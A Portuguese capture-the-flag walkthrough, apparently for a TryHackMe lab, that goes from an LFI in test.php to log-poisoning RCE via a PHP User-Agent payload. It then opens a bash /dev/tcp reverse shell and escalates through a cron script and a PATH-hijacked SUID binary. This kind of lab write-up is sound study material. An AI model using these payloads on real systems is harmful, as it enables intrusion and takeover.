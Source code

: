 Enumeração dos serviços:
![[Pasted image 20240126072921.png]]
Descoberta de um hostname:
![[Pasted image 20240126075211.png]]
Inclusão do hostname em `etc/hosts`:
![[Pasted image 20240126075351.png]]
Flag 1:
![[Pasted image 20240126075533.png]]
Enumeração de diretórios e arquivos, com descoberta da página /test.php:
![[Pasted image 20240126080126.png]]
A página carregada apresenta um botão que ao clicar somos redirecionados para um arquivo dentro do servidor, exibindo o caminho absoluto do mesmo. Isso nos da a ideia de um LFI, podemos tentar converter a página em Base64 utilizando o wraper filter do PHP:
`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php`
Output:
![[Pasted image 20240126084734.png]]
Vamos visualizar o código da página test.php e entender como está sendo feita a validação do parâmetro:
![[Pasted image 20240126084949.png]]
São feitas duas validações, a primeira o valor no parâmetro é diferente de `../..` e se existe o caminho `/var/www/html/development_testing`. Vamos então manipular o valor do parâmetro de forma que as duas validações sejam verdadeiras incluindo duas barras ao invés de uma:
![[Pasted image 20240126085250.png]]
Com alguns testes, identificamos o arquivo de log do apache em `var/log/apache2/access.log` podemos então evoluir o LFI para um RCE. Vamos alterar o User-Agent para `<?php system($_GET['lord']); ?>` utilizando um complemento do navegador ou o Burp Suite. Depois podemos acessar a página de log, incluindo o parâmetro `&lord=id` e confirmamos a saída do comando no final da página:
![[Pasted image 20240126090509.png]]
Com o RCE funcionando, vamos pegar uma Shell reversa com o payload: `/bin/bash -c 'bash -i > /dev/tcp/10.9.58.140/443 0>%261'`
![[Pasted image 20240126091531.png]]
Analisando os arquivos do sistema, identificamos um script do usuário archangel rodando a cada 1 minuto:
![[Pasted image 20240126095436.png]]
Vamos então manipular o script para enviar uma nova shell reversa, dessa vez do usuário archangel:
![[Pasted image 20240126095530.png]]
E temos a shell do usuário:
![[Pasted image 20240126095919.png]]
Analisando os arquivos com permissão SUID, descobrimos o binário `backup` na pasta `home/archangel/secret/backup`. Ao executá-lo o binário tenta fazer a cópia de alguns arquivos utilizando o utilitário `cp`.
Podemos então criar um `cp` falso que irá chamar a shell.
```
echo '#!/bin/bash' > cp
echo '' >> cp
echo 'bash -p' >> cp
```
Agora alteramos a variável PATH para que o `cp` falso seja executado:
`export PATH=/tmp`
E executamos o binário com SUID:
![[Pasted image 20240126110025.png]]